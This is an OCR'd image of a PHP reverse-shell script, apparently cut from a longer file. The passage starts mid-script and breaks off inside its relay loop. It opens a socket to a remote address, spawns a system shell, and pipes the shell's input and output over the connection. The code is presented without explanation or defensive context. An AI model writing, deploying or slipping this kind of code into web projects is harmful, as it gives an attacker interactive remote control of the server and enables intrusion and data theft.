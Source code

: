 ```php
chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
```